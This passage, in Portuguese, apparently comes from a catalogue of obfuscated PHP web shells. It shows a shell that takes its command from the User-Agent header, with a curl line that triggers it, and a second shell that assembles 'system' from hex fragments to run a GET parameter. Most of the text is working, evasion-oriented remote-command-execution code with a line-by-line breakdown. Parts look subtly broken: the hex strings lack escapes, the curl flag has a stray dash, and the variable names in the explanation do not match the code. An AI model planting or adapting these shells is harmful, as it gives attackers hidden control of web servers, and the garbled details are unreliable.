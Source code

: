 Code:
```php
(error_reporting(0)).($_=@explode(',',$_SERVER[base64_decode('SFRUUF9VU0VSX0FHRU5U')]))
.($_[0]("{$_[1]}")).exit;
```

Execução: 
1. O atacante envia uma requisição HTTP com um cabeçalho User-Agent específico, contendo uma string no formato `nome_da_função,comando_para_executar` -> `system,id` que será executado

```bash
curl -v 'http://localhost/shell.php' -–user-agent 'system,id;ls -la'
```

---

#### EXEMPLO 07

É usado o nome da function em formato shellcode, os valores de shellcode (`x73 x79 x73 x74 x65 x6D`) representam a string de function `system`. O comando que será executado dentro do php é recebido via `$_GET` no key `0` representado pela shellcode `x30`.

Os valores do shellcode da function `system` são alocados para uma `array`, que é coletada pela function `get_defined_vars` e posteriormente montado na ordem correta. O último step é a execução da função usando a técnica de variable-function `$___("{$_[0][0]}")` -> `system("meu comando")`.

**Debugar o código:**

Code:
```php
(error_reporting(0)).($_[0][]=@$_GET["x30"])
.($_[1][] = "x73").($_[1][] = "x79").($_[1][] = "x73")
.($_[1][] = "x74").($_[1][] = "x65").($_[1][] = "x6D")
.($__=@get_defined_vars()['_'][1]).($___.=$__[0])
.($___.=$__[1]).($___.=$__[2]).($___.=$__[3])
.($___.=$__[4]).($___.=$__[5]).(($___("{$_[0][0]}")).exit);
```

1. Preparação
- `(error_reporting(0))` e `$_[0][]=@`: Desativa a exibição de erros PHP.
- `$_[0][]=@$_GET["x30"]`: Cria um array `$_[0]` e atribui o valor de `$_GET["x30"]` ao primeiro elemento.

2. Criação de string maliciosa
- `$_[1][] = "x73"`: Adiciona o valor `"x73"` (codificação hexadecimal para "s") ao array `$_[1]`.
- `$_[1][] = "x79"`: Adiciona o valor `"x79"` (codificação hexadecimal para "y") ao array `$_[1]`.
- `$_[1][] = "x73"`: Adiciona o valor `"x73"` (codificação hexadecimal para "s") ao array `$_[1]`.
- `$_[1][] = "x74"`: Adiciona o valor `"x74"` (codificação hexadecimal para "t") ao array `$_[1]`.
- `$_[1][] = "x65"`: Adiciona o valor `"x65"` (codificação hexadecimal para "e") ao array `$_[1]`.
- `$_[1][] = "x6D"`: Adiciona o valor `"x6D"` (codificação hexadecimal para "m") ao array `$_[1]`.

A string resultante em `$_[1]` é "system".

3. Concatenação e execução
- `($__=@get_defined_vars()['_'][1])`: Recupera o valor de `$_[1]` e atribui à variável `$__`.
- `($___.=$__[0])`: Concatena o valor de `$__[0]` ("s") à variável `$__`.
- `($___.=$__[1])`: Concatena o valor de `$__[1]` ("y") à variável `$__`.
- `($___.=$__[2])`: Concatena o valor de `$__[2]` ("s") à variável `$__`.
- `($___.=$__[3])`: Concatena o valor de `$__[3]` ("t") à variável `$__`.
- `($___.=$__[4])`: Concatena o valor de `$__[4]` ("e") à variável `$__`.
- `($___.=$__[5])`: Concatena o valor de `$__[5]` ("m") à variável `$__`.
